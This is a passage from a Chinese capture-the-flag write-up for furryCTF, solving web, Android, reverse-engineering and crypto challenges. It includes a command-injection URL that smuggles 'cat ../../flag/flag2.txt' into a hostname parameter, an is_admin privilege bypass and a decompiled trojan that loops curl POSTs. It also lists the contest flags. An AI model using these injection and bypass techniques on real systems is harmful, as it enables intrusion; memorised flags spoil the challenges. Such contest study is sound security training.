#0000BB">$CTF&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color<br />&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!</span><span style="color: #0000BB">preg_match</span><span style="color: #007700">(</span><span style="color: #DD0000">"/[a-zA-Z0-9_@%&amp;?*:\-\+\"|`;\[\]]/"</span><span style="color: #007700">,</span><span style="color: #0000BB">$furry</span><span style="color: #007700">)&nbsp;&amp;&amp;&nbsp;!</span><span style="color: #0000BB">preg_match</span><span style="color: #007700">(</span><span style="color: #DD0000">"/[a-zA-Z0-9_@%&amp;*:\-\+\"|`;\[\]]/"</span><span style="color: #007700">,</span><span style="color: #0000BB">$CTF</spa<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #DD0000">"Success:"</span><sp<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">system</span><span style="color: #007700">(</span><span style="color: #DD0000">"cat&nbsp;"</span><span style="color: #007700">.</span><span style="color: #0000BB">$furry</spa<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;echo(</span><span style="color: #DD0000">"No&nbsp;Hack&nbsp;uwu."<<br /></span><span style="color: #0000BB">?&gt;</span>;There're&nbsp;two&nbsp;files:&nbsp;5lag.txt&nbsp;and&nbsp;flag.txt
</span>
</code>Success:furryCTF{Hundred_Secrets_An6_4_Mere_Care1essness}furryCTF{No_FLAG_Here}furryCTF{No_FLAG_Here}
'''
```

> furryCTF{Hundred_Secrets_An6_4_Mere_Care1essness}

### ]. [web&pwn]调试窗口

```text
出题人：秋实-Allenyou

兽兽们最近找到了一个没有使用权限的调试窗口，你能发现什么嘛？

http://10009.ctf.hydro.ac
```

可以看到源代码

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Furry CTF Host Management - Guest Mode</title>
        <style>
            .abc {
                font-weight: bold;
                font-size: larger;
            }
            .form {
                padding-top: 10px;
            }
            .ret {
                padding-top: 0px;
                color: red;
            }
        </style>
    </head>
    <body>
        <p class="abc">别看啦，你没有admin权限的！</p>
        <div class="form">
            <button onclick="submit_flag1();">点我获取Flag1</button>
            <p class="ret flag1">1</p>
        </div>
        <div class="form">
            <label>设置主机名</label>
            <input type="text" name="name" id="hostname" required />
            <button onclick="submit_hostname();">点我提交</button>
            <p class="ret flag2">1</p>
        </div>
        <script>
            function submit_flag1() {
                let output = document.querySelector(".flag1");
                fetch("/cgi-bin/getflag.cgi?is_admin=0")
                    .then((r) => {
                        if (r.ok) {
                            return r.text();
                        } else {
                            return Promise.reject("no reason");
                        }
                    })
                    .then((r) => {
                        output.innerText = r;
                    });
            }
            function submit_hostname() {
                let output = document.querySelector(".flag2");
                const hostname = encodeURIComponent(
                    document.getElementById("hostname").value
                );
                fetch(`/cgi-bin/sethostname.cgi?is_admin=0&hostname=${hostname}`)
                    .then((r) => {
                        if (r.ok) {
                            return r.text();
                        } else {
                            return Promise.reject("no reason");
                        }
                    })
                    .then((r) => {
                        output.innerText = r;
                    });
            }
        </script>
    </body>
</html>
```

那么第一个可以用的就是https://10009.ctf.hydro.ac/cgi-bin/getflag.cgi?is_admin=1

获得`furryCTF{Be_The_K1`

第二个要稍微构造一下https://10009.ctf.hydro.ac/cgi-bin/sethostname.cgi?is_admin=1&hostname=114514;cat%20../../flag/flag2.txt

获得`The latter part: ng_Of_The_M0un7}`

> furryCTF{Be_The_K1ng_Of_The_M0un7}

## MOBILE

### _. [mobile]登录

```text
猫猫最近做了一个APP。

只是，猫猫发现自己好像没法登录……
```

用GDA打开一把梭了



> furryCTF{Rev_Th2_Andr0id_W1th_Jump}

### `. [mobile]认证系统

```text
出题方：KROSYS工作室

猫猫找一只狼狼做了一个认证系统。

不过，这个认证系统似乎有点弱……？
```

确实开幕雷击。



### a. [mobile]初见端倪

```text
出题方：KROSYS工作室

虽然但是，狼狼好像没有给APP绑定页面……
```

```java
public class MainActivity extends AppCompatActivity    // class@000003 from classes6.dex
{

    public void MainActivity(){
       super();
    }
    protected void onCreate(Bundle savedInstanceState){
       String q;
       try{
          super.onCreate(savedInstanceState);
          Check.check(this);
          String k = "ah4icgsj8uye56a";
          String tips1 = "Add l to the end of string k, and replace first a of string k with s.";
          String tips2 = "The string q is question, you need decrypt it.";
          q = "pKykC9wdNL7TWLPmWSB3%2FbfkQEhOz358w9ItGIPTEoEhPeT05JIbRHxf8eWiaaYge7gc6JZfZaGB2F44KS7onceFTmSyNlpn6ItKpM%2BgjuSv0lB86kGLOv2l2mMIG9Ck";
          System.out.println(q);
       }catch(java.lang.Exception e0){
       }
       return;
    }
}
```

`k = sh4icgsj8uye56al`

```python
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def realize(key, encoded_text):
    encrypted_bytes = b64decode(encoded_text)
    cipher = AES.new(key.encode('utf-8'), AES.MODE_ECB)
    original_bytes = unpad(cipher.decrypt(encrypted_bytes), AES.block_size)
    return original_bytes.decode('utf-8')
key = "sh4icgsj8uye56al" 
encoded_text = "pKykC9wdNL7TWLPmWSB3/bfkQEhOz358w9ItGIPTEoEhPeT05JIbRHxf8eWiaaYge7gc6JZfZaGB2F44KS7onceFTmSyNlpn6ItKpM+gjuSv0lB86kGLOv2l2mMIG9Ck"
decrypted_text = realize(key, encoded_text)
print("Decrypted Text: ", decrypted_text)
'''
Decrypted Text:  flag密钥请见res文件内字符串k0，密文请见res文件内字符串e0-e10
'''
```

> e0-e10 VTk13m9Q3wjrmEbrh1N%2FJUPfarysMORUNkwdx78KxoU%3D
>
>
>
> k0 gfje8s5d6ebx0sh3

```python
from base64 import b64decode
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def realize(key, encoded_text):
    encrypted_bytes = b64decode(encoded_text)
    cipher = AES.new(key.encode('utf-8'), AES.MODE_ECB)
    original_bytes = unpad(cipher.decrypt(encrypted_bytes), AES.block_size)
    return original_bytes.decode('utf-8')
# key = "sh4icgsj8uye56al" 
# encoded_text = "pKykC9wdNL7TWLPmWSB3/bfkQEhOz358w9ItGIPTEoEhPeT05JIbRHxf8eWiaaYge7gc6JZfZaGB2F44KS7onceFTmSyNlpn6ItKpM+gjuSv0lB86kGLOv2l2mMIG9Ck"
# decrypted_text = realize(key, encoded_text)
# print("Decrypted Text: ", decrypted_text)
key2 = 'gfje8s5d6ebx0sh3'
e2 = 'VTk13m9Q3wjrmEbrh1N/JUPfarysMORUNkwdx78KxoU='
print('furryCTF{',realize(key2, e2),'}',sep='')
'''
furryCTF{R9v9rse_Easy_ca5e_2}
'''
```

> furryCTF{R9v9rse_Easy_ca5e_2}

## REVERSE

### b. [rev]Login

```text
猫猫写了个登录窗口，同时为了防止自己忘记密码在程序里留了个备份。
```

IDA pro打开 string里面找到这个`50955130862247346033128821496195502070347087340218689554242763562407659428661122869571965`



```python
big_number = '50955130862247346033129849911215869256974228669048534734398765262912025541901441526490493' 
hex_str = hex(int(big_number))[2:]  
if len(hex_str) % 2 != 0:
    hex_str = '0' + hex_str
ascii_str = bytes.fromhex(hex_str).decode('ascii', errors='ignore')  
print(ascii_str)
'''
furryCTF{P0inter_Is_Out_Of_The_Ran9e}
'''
```

> furryCTF{P0inter_Is_Out_Of_The_Ran9e}

### c. [rev]MEMZ

```text
警告：本题为病毒逆向分析题！附件内文件为病毒文件！千万不要运行！千万不要运行！千万不要运行！如果运行后果自负！
为了防止手滑导致的病毒感染，本题附件已经去除了后缀。

猫猫在自己的计算机上认识了一只新的猫猫：Nyan Cat

所以他们两个商量了一下……

注：为了防止报毒本题压缩包进行了加密，但是密码……你们自己破解好惹w~
```

不知道为什么逆向里面还多了点misc。

看了一下不是伪加密，暴力获得压缩包密码furry，取出来a3d5715a81f2fbeb5f76c88c9c21eeee87142909716472f911ff6950c790c24d这个文件



一样的操作找到`181028990419375709681764670364570214516897360554680698682721225149223938429`

```python
big_number = '181028990419375709681764670364570214516897360554680698682721225149223938429' 
hex_str = hex(int(big_number))[2:]  
if len(hex_str) % 2 != 0:
    hex_str = '0' + hex_str
ascii_str = bytes.fromhex(hex_str).decode('ascii', errors='ignore')  
print(ascii_str)
'''
furryCTF{MEMZ_W1th_furryCTF_:)}
'''
```

> furryCTF{MEMZ_W1th_furryCTF_:)}

### d. [rev]烦人的黑框框

```text
猫猫写了一个木马程序，你能分析出这个木马程序在发送什么数据吗？
```

看图标看出来需要python逆向。

```bash
python pyinstxtractor.py trojan.exe
```

在里面看到trojan.py

```bash
uncompyle6 -o trojan.py trojan.pyc
```

```python
# Embedded file name: trojan.py
import time, os
lists = "MZ2XE4TZINKEM62ON52GKX2UNBSV6QRTGJPUGMDEMV6Q===="
while 1:
    for i in lists:
        os.system('curl -X POST -H "X-Forwarded-For=furryCTF{Not_Here}" 127.0.0.1:56387?data=' + i)
        time.sleep(1)
```

看起来这个lists就是需要解密的东西



> furryCTF{Note_The_B32_C0de}

### e. [rev]怪兽入侵

```text
猫猫国被凶狠的怪兽入侵了！

一起来化身为勇者，保护可怜的猫猫们吧！
```

局部伪加密压缩包，~~疑似放错地方的逆向题目~~



头部改掉，







对应的尾部也要改掉。修改完就可以正常打开了。

解压出来



逻辑很简单，flagmaker需要打死怪兽获得的金币和钻石数量，

因此对怪兽入侵进行逆向。

```c
__int64 __fastcall main()
{
  std::ostream *v0; // rax
  __int64 v1; // rax
  __int64 v2; // rax
  __int64 v3; // rax
  __int64 v4; // rax
  std::ostream *v5; // rax

  _main();
  system("color 0e");
  while ( hps.hp != hashs )
    show();
  system("color 0a");
  v0 = (std::ostream *)std::operator<<<std::char_traits<char>>(refptr__ZSt4cout, &unk_1400B50B7);
  std::endl<char,std::char_traits<char>>(v0);
  v1 = std::operator<<<std::char_traits<char>>(refptr__ZSt4cout, &unk_1400B50CC);
  v2 = std::ostream::_M_insert<long long>(v1, argv.ed ^ argv.b);
  v3 = std::operator<<<std::char_traits<char>>(v2, &unk_1400B50D5);
  v4 = std::ostream::_M_insert<long long>(v3, argv.ed ^ argv.d);
  v5 = (std::ostream *)std::operator<<<std::char_traits<char>>(v4, &unk_1400B50DE);
  std::endl<char,std::char_traits<char>>(v5);
  system("pause>>nul");
  return 0LL;
}
```

不难看出打死的时候输出的就是v2和v4，v1和v3输出的





这是一点冷知识，

然后就可以看的很明白。



点击argv进去看到

> argv anss <1234567812345678h, 1234567812344886h, 1234567812345396h>



点击anss看到这个结构体，因此可以得到它们对应的值。

```cpp
#include<iostream>
int main(){
    long long a,b,d;
    long long c,e;
    a= 0x1234567812345678;
    b = 0x1234567812344886;
    d = 0x1234567812345396;
    c = a^b;
    e = a^d;
    std::cout << std::dec << c << std::endl;
    std::cout << std::dec << e << std::endl; 

    return 0;
}
//7934
//1518
```

```
请输入你获得的金币数:7934
请输入你获得的钻石数:1518
furryCTF{Do_Not_Y0u_Kn0w_8ow_T0_Maker_Cheat}
```

> furryCTF{Do_Not_Y0u_Kn0w_8ow_T0_Maker_Cheat}

## CRYPTO

### f. [crypto]亡羊补牢

```text
猫猫这次可是真的没有对明文加密哦owo~

rFettRF_efC_Ieglcpr{we1aeCruTNns__ehyA_rnin1}
```

